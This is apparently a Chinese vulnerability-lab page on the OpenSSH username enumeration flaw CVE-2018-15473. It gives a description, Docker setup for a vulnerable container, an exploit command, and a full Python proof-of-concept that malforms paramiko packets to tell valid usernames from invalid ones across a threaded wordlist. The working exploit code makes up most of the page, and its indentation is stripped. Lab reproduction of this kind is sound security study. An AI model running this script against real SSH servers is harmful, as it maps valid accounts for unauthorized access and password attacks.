

OpenSSH 用户名枚举漏洞 CVE-2018-15473¶
漏洞描述¶
OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机中。
参考链接：
- http://openwall.com/lists/oss-security/2018/08/15/5
- https://github.com/Rhynorater/CVE-2018-15473-Exploit
- https://www.anquanke.com/post/id/157607
OpenSSL是密码学库，主要设计目的是加密网络数据流（应用层和传输层）。OpenSSH是使用OpenSSL实现的Remote Shell。
环境搭建¶
Vulhub执行如下命令，编译及启动一个运行OpenSSH 7.7p1的容器：
docker-compose build
docker-compose up -d
环境启动后，我们在客户端执行ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@your-ip -p20022，输入密码vulhub，即可登录到容器中。
漏洞复现¶
使用CVE-2018-15473-Exploit，枚举字典中的用户名：
python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt your-ip

可见，root是存在的用户，rootInvalid是不存在的用户。
此处环境建议为：
- python-3.6
- paramiko-2.4.1
漏洞POC¶
#!/usr/bin/env python
import argparse
import logging
import paramiko
import multiprocessing
import socket
import string
import sys
import json
from random import randint as rand
from random import choice as choice
# store function we will overwrite to malform the packet
old_parse_service_accept = paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT]
# list to store 3 random usernames (all ascii_lowercase characters); this extra step is added to check the target
# with these 3 random usernames (there is an almost 0 possibility that they can be real ones)
random_username_list = []
# populate the list
for i in range(3):
user = "".join(choice(string.ascii_lowercase) for x in range(rand(15, 20)))
random_username_list.append(user)
# create custom exception
class BadUsername(Exception):
def __init__(self):
pass
# create malicious "add_boolean" function to malform packet
def add_boolean(*args, **kwargs):
pass
# create function to call when username was invalid
def call_error(*args, **kwargs):
raise BadUsername()
# create the malicious function to overwrite MSG_SERVICE_ACCEPT handler
def malform_packet(*args, **kwargs):
old_add_boolean = paramiko.message.Message.add_boolean
paramiko.message.Message.add_boolean = add_boolean
result = old_parse_service_accept(*args, **kwargs)
#return old add_boolean function so start_client will work again
paramiko.message.Message.add_boolean = old_add_boolean
return result
# create function to perform authentication with malformed packet and desired username
def checkUsername(username, tried=0):
sock = socket.socket()
sock.connect((args.hostname, args.port))
# instantiate transport
transport = paramiko.transport.Transport(sock)
try:
transport.start_client()
except paramiko.ssh_exception.SSHException:
# server was likely flooded, retry up to 3 times
transport.close()
if tried < 4:
tried += 1
return checkUsername(username, tried)
else:
print('[-] Failed to negotiate SSH transport')
try:
transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
except BadUsername:
return (username, False)
except paramiko.ssh_exception.AuthenticationException:
return (username, True)
#Successful auth(?)
raise Exception("There was an error. Is this the correct version of OpenSSH?")
# function to test target system using the randomly generated usernames
def checkVulnerable():
vulnerable = True
for user in random_username_list:
result = checkUsername(user)
if result[1]:
vulnerable = False
return vulnerable
def exportJSON(results):
data = {"Valid":[], "Invalid":[]}
for result in results:
if result[1] and result[0] not in data['Valid']:
data['Valid'].append(result[0])
elif not result[1] and result[0] not in data['Invalid']:
data['Invalid'].append(result[0])
return json.dumps(data)
def exportCSV(results):
final = "Username, Valid\n"
for result in results:
final += result[0]+", "+str(result[1])+"\n"
return final
def exportList(results):
final = ""
for result in results:
if result[1]:
final+=result[0]+" is a valid user!\n"
else:
final+=result[0]+" is not a valid user!\n"
return final
# assign functions to respective handlers
paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = malform_packet
paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = call_error
# get rid of paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())
arg_parser = argparse.ArgumentParser()
arg_parser.add_argument('hostname', type=str, help="The target hostname or ip address")
arg_parser.add_argument('--port', type=int, default=22, help="The target port")
arg_parser.add_argument('--threads', type=int, default=5, help="The number of threads to be used")
arg_parser.add_argument('--outputFile', type=str, help="The output file location")
arg_parser.add_argument('--outputFormat', choices=['list', 'json', 'csv'], default='list', type=str, help="The output file location")
group = arg_parser.add_mutually_exclusive_group(required=True)
group.add_argument('--username', type=str, help="The single username to validate")
group.add_argument('--userList', type=str, help="The list of usernames (one per line) to enumerate through")
args = arg_parser.parse_args()
def main():
sock = socket.socket()
try:
sock.connect((args.hostname, args.port))
sock.close()
except socket.error:
print('[-] Connecting to host failed. Please check the specified host and port.')
sys.exit(1)
# first we run the function to check if host is vulnerable to this CVE
if not checkVulnerable():
# most probably the target host is either patched or running a version not affected by this CVE
print("Target host most probably is not vulnerable or already patched, exiting...")
sys.exit(0)
elif args.username: #single username passed in
result = checkUsername(args.username)
if result[1]:
print(result[0]+" is a valid user!")
else:
print(result[0]+" is not a valid user!")
elif args.userList: #username list passed in
try:
f = open(args.userList)
except IOError:
print("[-] File doesn't exist or is unreadable.")
sys.exit(3)
usernames = map(str.strip, f.readlines())
f.close()
# map usernames to their respective threads
pool = multiprocessing.Pool(args.threads)
results = pool.map(checkUsername, usernames)
try:
if args.outputFile:
outputFile = open(args.outputFile, "w")
except IOError:
print("[-] Cannot write to outputFile.")
sys.exit(5)
if args.outputFormat=='json':
if args.outputFile:
outputFile.writelines(exportJSON(results))
outputFile.close()
print("[+] Results successfully written to " + args.outputFile + " in JSON form.")
else:
print(exportJSON(results))
elif args.outputFormat=='csv':
if args.outputFile:
outputFile.writelines(exportCSV(results))
outputFile.close()
print("[+] Results successfully written to " + args.outputFile + " in CSV form.")
else:
print(exportCSV(results))
else:
if args.outputFile:
outputFile.writelines(exportList(results))
outputFile.close()
print("[+] Results successfully written to " + args.outputFile + " in List form.")
else:
print(exportList(results))
else: # no usernames passed in
print("[-] No usernames provided to check")
sys.exit(4)
if __name__ == '__main__':
main()